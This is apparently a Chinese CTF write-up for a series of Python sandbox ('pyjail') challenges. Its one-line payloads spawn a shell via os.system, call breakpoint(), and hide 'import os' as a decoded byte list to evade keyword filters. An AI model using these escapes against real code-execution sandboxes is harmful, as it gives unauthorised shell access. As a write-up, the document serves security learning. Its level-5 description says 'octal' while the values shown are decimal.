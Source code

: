 ## 签到

CV工程师一大早上班拿下一血！

## pyjail

### level 1

类似EncodeTrick，只不过没有限制

```python
import os
print(os.environ.get('FLAG'))
```

### level 2

没啥限制，nc连接，直接拿shell

```python
exec('import os;os.system("sh")')
```

### level 3

13字符限制，靠读取绕过

```python
exec(input())
```
### level 4

12字符限制，靠断点拿shell

```python
breakpoint()
```

### level 5

禁用了import等字样，尝试将payload用8进制发送再解码

```python
exec(bytes([105, 109, 112, 111, 114, 116, 32, 111, 115, 59, 32, 111, 115, 46, 115, 121, 115, 116, 101, 109, 40, 34, 115, 104, 34, 41]).decode())
```

### level 6

禁用了小写字符，因此通过unicode近似字符绕过；要注意的是符号可以由unicode解析成小写字符，
但是字符串不行，会保持原样，因此考虑用8进制绕过

![怕字符显示不出来，上图！](/assets/cbctf2023/bypass.png)

